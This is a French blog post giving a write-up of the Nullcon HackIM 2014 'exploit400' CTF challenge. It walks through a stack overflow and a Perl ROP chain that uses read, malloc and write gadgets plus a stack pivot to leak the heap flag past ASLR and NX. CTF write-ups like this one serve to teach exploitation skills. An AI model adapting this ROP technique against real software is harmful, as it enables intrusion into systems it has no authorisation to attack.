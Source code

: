 ```yaml
---
title: NULLCON-CTF-2014 - Exploit 400
date: 2014-01-26
tags: ctf
author: Tosh
layout: post
---
```


Voici un petit write-up du challenge exploit400, du CTF Nullcon Hackim 2014.

Vous pouvez trouver le binaire ici : [exploit400](https://repo.t0x0sh.org/ctf/2014-nullcon/exploit400)
Et la source ici : [exploit400.c](https://repo.t0x0sh.org/ctf/2014-nullcon/exploit400.c)

Le fait que nous avions accés au code source du programme nous a bien facilité la tâche.

Le programme est on ne peut plus simple :
- Il ouvre et lit le flag de validation, et le stock dans le heap.
- Il demande ensuite une saisie, qui abouti facilement à un stack based overflow.

Il n'y a pas beaucoup de protection, et j'ai programmé mon exploit en prenant en compte l'ASLR probable :

```
	RELRO      STACK CANARY      NX            PIE         RPATH      RUNPATH      FILE
	No RELRO   No canary found   NX enabled    No PIE      No RPATH   No RUNPATH   exploit400
```

Comment lire le flag stocké en mémoire ? J'ai choisi de faire du ROP afin de bypass l'ASLR et NX.

La première chose que j'ai fais, c'est mettre à zéro 4 bytes du segment DATA. Pour se faire, j'ai utilisé la fonction read, présente dans la @PLT, afin d'envoyer 0x00000000.

```perl
	$payload .= pack('L', 0x080483d0); # read@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000000); # stdin
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 4); # size
```

Ensuite, j'exécute un malloc, histoire d'avoir une adresse du heap, et connaître ainsi l'emplacement du flag.


```perl
	$payload .= pack('L', 0x080483f0); # malloc@plt
	$payload .= pack('L', 0x080483a0); # pop;ret
	$payload .= pack('L', 0x100); # size
```

L'adresse du flag est alors à : EAX - OFFSET. Avec quelques gadgets, je stocke cette valeur en mémoire. (dans la zone initialisé grâce à la fonction read)

```perl
	$payload .= pack('L', 0x080483a0); # pop ebx; ret
	$payload .= pack('L', 0x080498d8-0x5d5b04c4); # DATA

	$payload .= pack('L', 0x080484de); # add [ebx+0x5d5b04c4],eax
```

Je m'envois alors cette valeur via la fonction write

```perl
	$payload .= pack('L', 0x08048440); # write@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000001); # stdout
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 4); # size
```

J'ai choisi d'utiliser une technique de fake-stack-frame + stack-pivot afin d'avoir un code "dynamique" (je calcule comme ça les offsets du heap dans l'exploit, et je peux créer la fake-stack-frame en conséquence). Je reçois ma stack via read(), que je stock dans le segment DATA.
J'exécute ensuite une instruction du type pop ebp; leave; ret; afin de changer de stack-frame.

```perl
	$payload .= pack('L', 0x080483d0); # read@plt
	$payload .= pack('L', 0x080486a7); # pop3;ret
	$payload .= pack('L', 0x00000000); # stdin
	$payload .= pack('L', 0x080498d8); # DATA
	$payload .= pack('L', 0x130); # size

	$payload .= pack('L', 0x080484e3); # pop ebp ; ret
	$payload .= pack('L', 0x080498d4);
	$payload .= pack('L', 0x08048511); # leave; ret
```

Envois du payload

```perl
	print $sock $payload;
```

Mise à zéro d'une variable en mémoire (premier read)

```perl
	print $sock "\x00\x00\x00\x00";
```

Lecture de l'adresse du HEAP envoyée

```perl
	$sock->read($r, 21);
	$sock->read($r, 4);
	$r = unpack('L', $r);
```

Création + envoi de la fake-stack-frame. Il s'agit s'implement d'un write() envoyant le flag.

```perl
	$stack .= pack('L', 0x08048440); # write@plt
	$stack .= pack('L', 0x080486a7); # pop3;ret
	$stack .= pack('L', 0x00000001); # stdout
	$stack .= pack('L', $r-0x48); # FLAG
	$stack .= pack('L', 100); # size

	print $sock $stack;
```

Réception du flag et validation du challenge !!!

```perl
	while($r = <$sock>) {
		print $r;
	}
```

Un challenge simple, mais plutôt marrant.

Voici l'exploit entier : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/2014/nullcon/exploit400.pl)
